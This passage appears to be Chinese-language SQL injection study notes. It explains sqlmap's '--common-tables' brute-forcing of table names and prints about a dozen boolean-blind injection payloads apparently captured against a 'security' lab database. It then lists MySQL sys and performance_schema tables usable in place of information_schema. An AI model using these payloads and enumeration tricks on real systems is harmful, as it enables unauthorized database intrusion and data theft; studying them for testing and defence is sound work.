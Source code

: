 sqlmap提供了暴力破解表名的的选项`--common-tables`，当出现以下场景的时候。

1. DBMS（Database Management System，数据库管理系统）是 < 5.0 版本的 MySQL，它们不具备 information_schema。

2. DBMS 是微软的 Access 数据库，并且其中的系统表 MSysObjects 默认设置不可读。

3. 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限。


就会采用字典中的表名进行暴力破解，表名储存在sqlmap路径\data\txt中



爆破时发送的payload

```
1' AND EXISTS(SELECT 2 FROM security.users) AND 'WKMd'='WKMd
1' AND EXISTS(SELECT 9 FROM security.customer) AND 'hQcB'='hQcB
1' AND EXISTS(SELECT 8 FROM security.`user`) AND 'ckZb'='ckZb
1' AND EXISTS(SELECT 1 FROM security.orders) AND 'WffN'='WffN
1' AND EXISTS(SELECT 3 FROM security.employee) AND 'KfTF'='KfTF
1' AND EXISTS(SELECT 1 FROM security.x_world) AND 'uuGu'='uuGu
1' AND EXISTS(SELECT 8 FROM security.category) AND 'tHIj'='tHIj
1' AND EXISTS(SELECT 8 FROM security.project) AND 'HBCY'='HBCY
1' AND EXISTS(SELECT 7 FROM security.account) AND 'tSOY'='tSOY
1' AND EXISTS(SELECT 4 FROM security.customers) AND 'HlJM'='HlJM
1' AND EXISTS(SELECT 9 FROM security.country) AND 'gEzc'='gEzc
1' AND EXISTS(SELECT 1 FROM security.config) AND 'hQdH'='hQdH
```


官方文档中说，开启了爆破后，sqlmap 仍然可以识别出部分系统数据表。不过从拦截的情况来看好像并没有尝试通过sys中的视图以及mysql库中的系统表来获得数据。







# 其他可用表

**原文：[MYSQL注入中 information_schema 的替代](https://www.cnblogs.com/h0cksr/p/16189749.html)**

**Mysql 版本: 5.7.26**


先罗列一下可用表：

```
sys.io_global_by_file_by_bytes
information_schema.PARTITIONS
information_schema.KEY_COLUMN_USAGE
performance_schema.events_statements_summary_by_digest
performance_schema.file_instances
performance_schema.file_summary_by_instance
performance_schema.file_instances
sys.schema_index_statistics
sys.schema_object_overview
sys.schema_tables_with_full_table_scans
sys.schema_table_statistics
sys.schema_table_statistics_with_buffer
sys.statements_with_errors_or_warnings
sys.statements_with_full_table_scans
sys.statements_with_runtimes_in_95th_percentile
sys.statements_with_sorting
sys.statements_with_temp_tables
sys.statement_analysis
```
